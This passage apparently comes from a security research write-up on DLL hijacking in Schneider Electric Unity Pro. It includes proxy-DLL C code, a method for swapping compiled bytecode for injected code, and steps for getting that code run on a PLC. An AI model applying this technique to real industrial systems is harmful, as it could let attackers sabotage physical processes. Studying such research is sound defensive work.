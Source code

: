 ```c
__asm jmp table[4]
}
__declspec(naked) void __cdecl theOptimizer ( void )
{
__asm jmp table[8]
}
void localDllMain( void )
{
/* Handle on the original Dll */
HINSTANCE hOriginalDll;
hOriginalDll = LoadLibraryA(“C:\\Program Files (x86)\\Schneider Electric\\Unity Pro\\asm_Arm.dll”);
table[0] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(1));
table[1] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(2));
table[2] = GetProcAddress(hOriginalDll, MAKEINTRESOURCEA(3));
return;
}
void localDllClose( void )
{
return;
}
BOOL WINAPI DllMain(HINSTANCE hDll, DWORD fdwReason, LPVOID lpvReserved)
{
if ( fdwReason == DLL_PROCESS_DETACH )
{
localDllClose( );
}
if ( fdwReason == DLL_PROCESS_ATTACH )
{
localDllMain( );
}
return TRUE;
}
```

As we have seen before the *MyAsmArmStream* takes a buffer as an input parameter. This one contains the ASM source code.

Here are the descriptions of our modified *MyAsmArmStream* functions:

* Search end of user automation code in ASM source
* Add our instructions to the ASM source
* We choose instruction: *submit r4, r2, #0x20000004*
* Call the original *MyAsmArmStream* function
* Search in generated bytecode for the pattern 0x4242424242424242 (compiled form of *submit r4, r2, #0x20000004*) and replace it with another pattern 0xe1a08008e1a08008 (compiled form of NOP (No Operation) instructions: *mov r8, r8*)

Now we have our new DLL template. We have to generate the byte code we want to be executed on the PLC. We can then create our DLL by replacing the pattern 0xe1a08008e1a08008 with our byte code.

So now to execute our code on the PLC we have to:

1. Rename the original asmArm.dll to asm_Arm.dll 
2. Place our malicious asmArm.dll in the Unity folder
3. Run Unity and load the automation project
4. Run the compiled project
5. Stop the PLC automation program
6. Upload the automation to the PLC
7. Run the PLC automation program
